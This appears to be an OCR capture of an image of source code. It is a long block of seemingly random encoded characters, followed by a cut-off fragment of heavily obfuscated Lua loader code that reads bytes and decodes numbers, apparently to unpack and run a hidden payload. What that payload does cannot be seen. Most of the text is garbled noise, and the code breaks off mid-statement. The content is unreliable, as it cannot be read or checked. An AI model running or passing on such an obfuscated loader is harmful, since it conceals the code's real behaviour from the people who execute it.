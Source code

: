 .ka__,NKD>,;!!a4ws.;Ka;N44N?tK>N=l_a!Ka!_4.,,D.!KK;J._NFrO>c!5a!_K.kK,; 4>kw!Fa _N.O >w;4aNOK.,w! aH_K.! .Nw K; Ow,>!aC;_a.k NN! wwkOwK;N_a4>D.  Nw!Kaw!4OK,D!,!!b2N_N!, ;wKD ,,NNMO>>!_4..! O;aONkaD,T4_4!_aDw OK>!OKk,,kOKNKy>>> KD4wOO_KO;.44_a!Oa>_;4KKD;.4,kwGO>K!!a4__O;K ;!4Ok>D;>a!ka.w .wKx;K4Ok4Dw,D!  ._O.> ;; 4kk.D,_w! aK_!.4 _wD4!kNDO,DN;aK_k.. ,;a4^.K^s,4N;JD_O.NK w>>;.KDk,4N,a!_(.N !544 KDDk,NNDZ>_a.aNkDOO,KDDm,kN!X;>_!D! wNOOK>DV,aNNV.>,>K 9wKO!K,;_4DN YN>O!>a;waO;K.;,4wNKsO>!!4a__wz4waOOKKNac.>k!.a,_>D_wK.,KK;kl _,!NaO_>._w!.4k w;,KN!D>>w!NaK4_kkD.,D! a4_.., ;; 44k_D;k4Y!,_NDa _Ka;_KON .;K4KkwD > N.a>_/wD4.k DN,ON4Ok!KaN_;.  ;;.D!>.N4x_>D.5,N!_ 4w!. k!D;,!N!o_>4!,KfwO4akKNOkK>>!; aw c;wNONDKD , N,/,. .4 .O>ONK!DON.N;3N>N Kja_;4N;D;,4!N>>>>M!!a4wNK,KJ;D,KkDD;>qaD !wkKOkk;w,!N!>.,w!4a4wK.OKOww,ak!>!aOwO.> ;;a4 _N4 N4>K4 ! a,_,K sO;.4>k.D!,O_N.. ,ww4MkKD!>w4_a _..N Ow>O__ OOk.D a4_q.K !;>4.KDD ,NN_H>>;.a kD O,K;Dc,KN!Y4>_!D >wNOOK>Db,aNNI.>,.; 2wKO!K,;_4DN  N>D!>a;waOkK.Du4wN=aN>!!>a__DO K4;O_>!Nya>!!. k_wOOKKa!_>k_na> !,aOw .;!aD.4.k_Dw> !Ka4_4,_NF; 4.kOD_,;!,ak_.>, w;g4KkOD4,wNDa T>.O >w;4 kkD.,,Nwa6_K.! 4;NODk DN,>!.z;_a.k NN5 D;N4OK;;D>Ka DH>wOkO;kDDa,kN.EOKw<k_a!;d,w;4!K;;;,kNap _O.g 4w>DI,!NKW!>4!,4>. a4w OK,aN!}k>.!,a>N.aDw!Oa4D.aB >N!Oa4N, Kw_K,KN;a,4k>>4>a!w !_,O,K+; NaNODD,DawaKw OOK>;a4 N!>N4K!? .O ;k4_k.D,,wN;O4!Oa,wK..KK;_D>>*N;aa_k.N,>.aK%w>D4_aN_PD_ .K_w.xK4wN4,kwD >kN_{,4KK>;;,!N4a<>;.a Nw44=kKDNK;D{,KN!+4>_!DK!aN4aK>;;,aNk{,>,!w ZwKO!K4;_>D!!RN>O!>a;waO!K.;,,4NFWN>!!4a_wKO !ND;4>N/^a>>!.a>_w>Sk7;!4>k_fN> !,aOD>O>Ka;!4.kwDw>O!Kk!__._Ka; 44kO{k,;!aNk_.., w; 4Kk.D4,_,Na _N.O _w;4akkD.,,Nwa=_K.w 4w_ODkND,,ON>X;KNwNO4k!D kKDK,!N4<__H.  NwOO>K;Da,k4.z>>w.n Kw!O4K_wD;aNO);>>!; ak.D>,_N!f;>,%4>,!_aDw OKK4;>4;Na5k>.!,OwaQ>!K!;44_kDk,>N!4a>_;OaKk;.4,4;+u>N!!a4__.DK ;Nvwk>DD>a!!a.__.wN!a<4!k,D_>N! a!_O._ ;;N;wk.D,,w!!aK_..4KsKO4 kNDO>ON;a _k... ww4akKD.,4N_&D_ _! OwwO;kaDk,.N,aK;k.K 4w4O_KDDK,NN,j>>;Ok kw.O,KwDd,KN!Y4 .!D  wNO,K>;;,aNkk.>,!; tw!O!K,;_,K,>vN>O!>kDwaONK.;,;NNoSk>!!4a__DO KNK44>N^Qa>k!.a,_wOS,O;!4,k_Ma> !.aODa4!Ka;N4..>Dw>a!Ka>_4OnOO; 4NkO _,;! ak_.wO w;a4Kk!D4,_ND B;;.O Dw;_ kkDO,,N;a+_._D 4w_OD.KDN,4N>/;b4.k Ow,4/k(DK,!N4.u>D.k NwOO>K;Da>!!w/,_{.0 .w!O4K_Ta,;NN7_>>.  awkO.K,D;,PNk9!>w!_ aw ,>NN;>4DNaKN>.!>aww!OKK,k 4_kDV ;!!Oa__;4K.N;.4>kwE >K!!a4w;_(K ;.4Ok;D;>a!ka. O.wKK;K4!k4D_,D.kN!_O.D ;;N4kk.D,>a,4aK_O.4N_wD4KkNDOD_N;a._k.O ,ww4gkKNK,4!KoD_!.N Ow>O;NkDk,DN,aa_R.K !w4O;KDD>,NN>R>>;.a kwDO,k.D},KN!x4>_!DK wN4KK>DK,aNkV.>,Ok MwDO!K;;_4DN ?N>>!> .wa4EK.;_4wNQaO>!.aa_w.O K;;O4>N!ga>w!.aD_wO%KK;!,Kk_=.> !waOwk.;Na;,4.N Dw>O!Kaw_4._K,; 4_kOM ,;!4ak_.4a w;a4Kk_D4>KNDa!aD.O ww;> kkDO,,Nw !_K.. 4w;ODk DN,O.a8;_a.k 4w,Owk(DK;_N46_>D.K NwOO>KDD ,kN.p,>w.L Kw!ODK_;D, NNaO>>.x awkO.K,;w,d!_Y!>_!_ Bw ONKO;>>aNaEO>.!>aww)OKK!jK4_N + >.!Oaw_;OaK_;.4_kwmP>K!4a4__4kK ;N4Ok_D;>a!ka4_,.wKj;K44k4D_,D!Na;_O.> ;wDK4wDO;kkD4,D!Naa D;;4 kNDO,4w_,4.Et4>-.aK4w>Owrw>w>!!wa_ >; O;kaDk,ND!>KN4nD_N.a4OKDD ,N!,!!>;.a kw,O,KwDl>N4.*4>w!D kwNOOK>;;a!Nk+.>,!D bwNO!KDKO4DN 9N_a!>aDwaOkK.;;D!NF6K>!. a_wzO k.kK4>k;Va>N!.a,_w4 .k;!4,k_Ya> !NaO_>_;Ka;k4.k>Dw>9!Ka!D_._ D; 4NkOD>,;!aK _.., w;74Kk!D4,_.Na _N.O ww;4akkD.DVNwa<_K.. 4w_ODk DN,ON>X;_,.k .w,43!KDK,!N4W,k>ak_w > !w 4,K_,,, N;a.>>.> awKk K!D!N>N.)D>..! _wDONK!D,N4K.Ek_> !O!KO;>4;Na{k>..;NwwKOOK!;44_kwO4NaZO>Kwa4 Kk;.4,k>OVk.0k>akw aw4OaKa;.4kkN3>>K!_a;KK;O4!k4D_,w;K,4!OaKKa;44kk.D,,>w!>N!. 8_kO-K4kOf!,>N;aa_ DK_>.KK ;O4>kaD >!aNDK_yO.4ak.Dk,.N,u>K_aK>,.K kk <,,NNOq>>_a!>4O a;;K4!K>Dw,NNKw_OkK.;D, N4=.>,!;  w4O_K;ODK4;_4DN CO>O!>a;waOkK.;,>wNkdK>!!4a__DO!KN;O>.k;&K>k!.a,waO*!KDD44k;DD>.!NaD_>,;k4;k44k,pK>%!ka!D4O. D;k4NNWD>>.!akkw;., D;C4!k!D>,_NDN _N.O >;l4akND.,,,Kar_K.! ,w_ODk DN,ON>1;_a.; .w,OwkK}B,!N4t_>waO>w.D awwOwk.;_,_NaaN>,w4>;K_;D, NKODN!5!.k.> D;aODkN;D4,NO>D>;!; !w!K;K4;N,,Q,DD>N!O kO4.DK;D 4;kwDD!;.N KO.4KK_DN,N(!D_>O!O  _.O. _Do4N0N!.aw_,.wKj;aa ;44bk4D,aOw4.> ;;a4 _.O;k>DO4k!O y_O.O ;w>O_N D,>K!N.O ,ww4CkKD!,4.RkD_N., Ow>O;KD.NK>D,,N_KO> !w4O_Kw4.K,-K4D!ka.>_.; !wkNwBN>O.g Kw,OOK>;D,KN,yw>Dd,_D!w (wKOk_e4kk!Dk,,NkDD>w kBKwKO>K>,K.4NOv_>O!.a4KO;w4>k;ia> ;;>!!waOK!;;44k_DD>sw>>,!_ N_4ONK;N!Dw>v!K Owk._ D; 4!kOD>,;!a O_..> w;94Kk!D4,_.Ma _N.O ww;4 kkD.,wNwa?_K.. 4w_OD! F;,ON>v;_a.k >w,OwN.DK,ON4B_>D.! NAO4KK;DK,kNwY,_N.CNK3OO4K;;D,_NNj,>>4; OwkO4K,D*,/N,&!;4OwaDwkONka;>,KNafkD.!,aww<ONK!;,4_kDkO>N!Oa>_DOaKk;.4,kw<&>K!!aw__.DK ;O4wk>D;>a! >aN;aw_O;!4;k4D_,D!W4T!D  waN> _;;Dw>O!LaK_!.._>Oa !w_4;N dK,w!Naa w ,40kKD!,.D.>!!4aO_;kODE,K44K>Rk!;N,jD_w.kKkwk4,k>Dc>cNkaK_N.;  w;4.0k;_,>N_wa_ !4 DwaO4K4D ,KN>pO>kKN _w OkK,D,!.NwYK>...;!w O Ka;.,4aOY4>+!> K4.O;Kk;!4_N__O>,!kOOKK;!44N;G;> !NaO_;.;Ka;k,4k;Dw>a!Ka._4._ Dd 4DkOD_,;! ak_4.,KDDN4Kk4D4>7NDa _N.OK.w;4 kkD,,,Nwam_KO! 4w_ODk DN,,N>d;ww.k .w,O;k(DN,!N4N >D.  Nw4O>K;Da,kN.S,>w.R Nw!O4K_D ,NNNyO>>!_>Kk;O,kK;w,MNK(kK.Qk_>k; !w>4KkNNkxk>.!, D >OKK.;44wkDd >N.OND_;O Kk;44,kwWY>K,_a4__.DKK;N4Ok>DD>a!ka._,.wKt;K4!k>D_,D! aN;D.> ;;a4kk.D,,w!?N4_!.4 _;U4 kNDO,_N;aa_k.. _ww4VkKD4>!N_%D_ .K_;.KKNw.4KkKDw, ! +._>.?ODNwD ,NNOB4N4aO_>.,Kh,,N eN;w,N! qN_k.,aD4_OOK>>!OO!!sO>NN_KK>KN.kKDDh4>O!>a;;KwDK.;,4wNaTK>!!4 ;aWO K!;O4wk;Ra>k!.4!_wOVKK;O44kwDD> ,>aO_>.;K ;k4.k,Dw>9!Ka!_4");local n=0;r.uDvqhfG_(function()r.JoBBuxGm()n=n+1 end)local function e(a,e)if e then return n end;n=a+n;end local a,n,o=f(0,f,e,s,r.YwgEJfIk);local function t()local a,n=r.YwgEJfIk(s,e(1,3),e(5,6)+2);e(2);return(n*256)+a;end;local u=true;local u=0 local function z()local d=n();local e=n();local l=1;local d=(a(e,1,20)*(2^32))+d;local n=a(e,21,31);local e=((-1)^a(e,32));if(n==0)then if(d==u)then return e*0;else n=1;l=0;end;elseif(n==2047)then return(d==0)and(e*(1/0))or(e*(0/0));end;return r.OmakkxLv(e,n-1023)*(l+(d/(2^52)));end;local p=n;local function b(n)local a;if(not n)then n=p();if(n==0)then return'';end;end;a=r.HaWTVTxu(s,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+u),#a do e=e..r.HaWTVTxu(a,n,n)end return e;end;local p=#r.aKALUVTn(h('\49.\48'))~=1 local